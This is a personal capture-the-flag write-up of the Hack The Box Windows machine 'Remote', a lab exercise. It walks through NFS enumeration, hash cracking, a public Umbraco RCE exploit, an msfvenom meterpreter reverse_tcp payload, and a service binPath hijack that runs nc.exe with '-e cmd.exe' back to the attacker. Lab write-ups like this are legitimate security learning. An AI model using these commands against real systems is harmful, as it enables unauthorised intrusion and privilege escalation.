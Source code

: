 # Week 9 - HTB - Remote

![remote](C:\Users\turtl\Documents\week9\images\remote.png)

Sasha Thomas

May 27th 2020

## Introduction and Materials

This week, I decided to step away from SmashTheStack temporarily and try my hand at another HTB machine.

This box was especially difficult, not only because I had no experience with Windows, but also because it is an active machine, meaning there are no write ups or references available. I didn't need to refer to any write ups for the last box (OpenAdmin), but I at least had the ease of mind that they were available. For this, I was on my own. 

To complete this, I used the MetaSploit Framework, MSFVenom, Python, `netcat`, Nmap, and `mount` (maybe some other tools I'm forgetting)

## Steps to Reproduce

1. As per usual, I used `nmap` to scan `10.10.10.180` with flags set to probe service/version info. A handful of ports were open:

   ![portscan](images/portscan.PNG)

   Not being experienced with Windows, nothing stood out to me, so out of curiosity I hit the IP in my web browser:

   ![acmesite](images/acmesite.png)

   I gave OWASP DirBuster a spin, because it led me down the right path with OpenAdmin, but the results were as impressive for this machine. Looking back at my Nmap scan, I started to google the services and ports I didn't recognize (which was pretty much each one). It was until I googled `mountd`, the service running on port 2049, that led me to something interesting. 

2. Some research led me to NFS or Network File System, which allows remote hosts to mount systems/directories over a network. If I could mount a directory from this machine to mine, then this might give me some good information. Running the command `showmount` told me that everyone could mount the directory `/site_backups`:

   ![showmount](images/showmount.PNG)

   Using the `mount` command, I successfully copied `/site_backups` to Kali, and began enumerating! 

   ![mounted](images/mounted.PNG)

   Learning from previous boxes, my goal was to look for any file related to configuration, settings, data, defaults, logs, etc. Eventually, within `/App_Data`, when I printed the contents of `umbraco.sdf`, I found some strings but mostly a sea of unrecognized characters. Having encountered similar situations, I know that the `strings` command is infinitely useful. Using `strings` gave me an interesting log of events, which looked like it included a password hashed using SHA1:

   ![hashedpass](images/hashedpass.PNG)

   Using a SHA1 decryptor, I was able to find a password: "baconandcheese"

3. Since these were credentials for Umbraco, I went to http://10.10.10.180/umbraco and successfully logged into the administrator account!

   ![admin](images/admin.PNG)

   This was great, but my goal remained to get into the machine. Having admin access to the site presumably meant that this was my way in, so more research led me to an exploit for this version of Umbraco CMS (https://github.com/noraj/Umbraco-RCE). This exploit, with admin credentials, allows for remote code injection into the box. After some tweaks to my syntax, I was successfully able to send commands to the machine! 

   ![firstshellkinda](images/firstshellkinda.PNG)

4. This is unfortunately where the pain began. Before this, I was getting by with google searches and a lot of enumeration. From this point on, I ran into a problem at every step of the way. Compounded with trying to get $%&#*@ powershell to do what I wanted it to, I was stuck at this point for the rest of the day. Technically, I owned user, in the sense that I was on the computer and got the user flag. But I didn't really "own" user, I was just injecting code. So I began trying to get a low-privileged shell, because I didn't see a way to escalate what I had to root without an actual shell.

5. I will spare the details of my frustration and speak to the core of my confusion. Because this is a Windows machine, many of the tools and strategies I've heard about or could google quickly didn't apply (as they were mostly Linux based). I felt stuck, because many of the strategies specifically for Windows required a shell or meterpreter. I wasn't using meterpreter, and didn't know how to use what I had to get a shell. Other resources I found suggested using `nc`, the Windows version of `netcat`, but this is obviously not installed on Windows machines by default. So, what if I put it on there? 

6. This was an idea that led me down a rabbithole. Although my RCI was very low-privileged, I could still by default upload to `/Users/Public`, where the user flag was held. I just needed to spin up a quick web-server to host the files, something I've never done before. I was ecstatic to find a super basic Python command, `SimpleHTTPServer`, which takes a port and creates a file sharing server from the directory you are in. I quickly had a rudimentary file sharing server which could host all the malicious files I wanted!

   ![pythonserver](images/pythonserver.PNG)

   (By the time I rooted the box, these were all the things I tried using)

7. Getting the files on the machine using powershell was an endeavor of its own. Technically the "p" and "s" in powershell should be capitalized, but it doesn't deserve the authority. Trying to figure this out took a painstaking half an hour of trying different commands with slightly different syntax. I will never take unix for granted again. Eventually, the command `Invoke-WebRequest` successfully did the job of transferring a file from my machine to `10.10.10.180`. In the end, the syntax isn't too scary, but errors with spaces, backslashes, apostrophes, and quotes, as well as the exploit assuming the powershell flags were incorrect python flags, made the process very tedious. The entire command looked like the following:

   ```bash
   python3 umbraco_exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a 'Invoke-WebRequest -Uri 'http://KaliIP:8080/file' -OutFile 'C:\Users\Public\Documents\file'
   ```

8. My newfound ability to transfer files led me to more frustration with `netcat` for Windows after I uploaded the exe. After an hour of frustration with permissions, exe's and powershell in general, I took a step back and researched more ways to accomplish what I wanted to. My goal was to upload something that could give me a shell, eject code to run it, and connect back to that on my Kali box. And the Metasploit Framework and MSFVenom actually allow you to do just that. MSFVenom lets you create malicious exe's that will run an exploit, and from my research, it seemed that through MSF, I could create a handler that listened for this and connect back to it, sort of like using MSF but manually performing each step. I created a malicious exe using the following command:

   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp lhost=KaliIP lport=4444 -f exe > payload.exe
   ```

   I copied this over to `/Public` and ran it. Then, on my Kali machine, I ran MSF and used `exploit/multi/handler` with the right port and IP, and to my surprise, this actually worked and got me a meterpreter session!

   ![meterpreter](images/meterpreter.PNG)

9. As cool as this was, it was only half the battle; I still needed to escalate my privileges somehow. I came back to the box the next day ready for lots of enumeration. It was unfortunately my enumeration which led me down a rabbithole which, while I think is possible, was beyond my capacity to figure out. While doing standard checks of the services running on the computer, I found that TeamViewer7 was running. There was nothing else that stood out to me, so I followed this path and started looking at the files and doing research. I found an exploit for old versions of TeamViewer which revealed passwords for the active TeamViewer session. Running this in metasploit gave me a clear hint!

   ![teamviewerexploit](images/teamviewerexploit.PNG)

   Siiiick!!! I just needed an ID for the TeamViewer session. More googling led me to the `reg query` command on Windows, which allowed me to query the registry holding ClientID:

   ![regquery](images/regquery.PNG)

   Converting the hex to decimal, I got 1769137322, a valid TeamViewerID. 

10. But no dice. I double-checked my number in TeamViewer, the password, ID, but nothing worked. I made sure the TeamViewer exe's were running using the `net start` command, but I got nowhere. Considering the name of the box and the ability to get the password and ID, I believe this is somehow a valid solution, but after a few hours of hitting my head against the wall, I looked for other options. 

11. Feeling as if I was starting over, I found some Windows enumeration and privilege escalation scripts, and transferred them to the box. After another half an hour of trying to download these as modules (in order to use the built-in commands), I finally found a loop around (as I didn't have privileges to install powershell modules):

    ```powershell
    powershell -exec bypass -Command "& {Import-Module ./PowerUp.ps1}"
    ```

    Using this allowed me to run the commands from the .ps1 file for that line only. I used the built-in `Invoke-AllChecks` command. The result was interesting; there was a service running as root which I had permission to not only restart, but change some of it's values, including, but not limited to, it's binary path name.

12. This time, I decided to use the `nc.exe` I originally attempted to use, because this time, I could set it to run with parameters. After uploading `nc.exe`, I used `sc config` on the vulnerable service (`UsoSvc`) to set `binPath` to `C:/Users/Public/Documents/nc.exe KalisIP 4444 -e cmd.exe`. 

    ![restart](images/restart.PNG)

13. For this change to take, I stopped the service, opened a `netcat` listener on my Kali box, and started the service again. And I was finally root!!!

    ![rooted](images/rooted.PNG)



## Discussion

First of all, my inexperience with Windows, cmd, and powershell definitely added lots of stress to this already difficult box. Nothing was super mind blowing, it just took me a long time to enumerate and set everything up perfectly, especially since I haven't used netcat or metasploit to drop a shell like that before. I have done something similar using remote code injection with PHP, but this felt like a whole new beast. 

As far as security principles violated, there were serious issues, starting with allowing everyone to copy that initial backup folder (not to mention using an outdated hash algorithm). But, in general, these vulnerabilities seem "realistic" in the sense that they could happen due to a lazy IT department. 

## Conclusion

I'm still upset I couldn't get the TeamViewer exploit to work. I have no idea why it fails to connect to the ID. I will look into it in my own time and see if I can get it to work. Considering the name of the box, and the password I found, it must be intentional, and likely the intended way. I'm not sure if my method was intentional, but it works! 

